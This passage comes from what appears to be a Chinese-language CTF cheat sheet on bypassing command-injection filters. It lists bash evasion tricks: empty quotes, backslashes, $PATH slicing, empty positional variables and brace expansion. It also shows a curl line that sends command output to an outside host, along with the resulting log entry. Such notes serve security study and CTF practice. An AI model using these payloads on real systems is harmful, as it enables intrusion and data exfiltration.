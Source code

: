 ```
$PATH => "/usr/local/….blablabla”
${PATH:0:1} => '/'
${PATH:1:1} => 'u'
${PATH:0:4} => '/usr'
```

#### 空值绕过

```
cat fl""ag
cat fl''ag
cat "fl""ag"
```

#### 反斜杠绕过

```
ca\t flag
l\s
```

#### >，+绕过：

对于 >,+ 等 符号的过滤 ,`$PS2`变量为>,`$PS4`变量则为+

#### 空变量绕过

$*和$@，$x(x 代表 1-9),${x}(x>=10) :比如ca${21}t a.txt表示cat a.txt 在没有传入参数的情况下,这些特殊字符默认为空,如下:

```
wh$1oami
who$@ami
whoa$*mi
```

### 花括号的用法

在Linux bash中还可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令
`{cat,flag}`

### 无回显的命令执行

可以通过curl命令将命令的结果输出到访问的url中

```
curl www.rayi.vip/`whoami`
```

在服务器日志中可看到

```
xx.xx.xx.xx - - [12/Aug/2019:10:32:10 +0800] "GET /root HTTP/1.1" 404 146 "-" "curl/7.58.0"
```

这样，命令的回显就能在日志中看到了

### 读文件命令
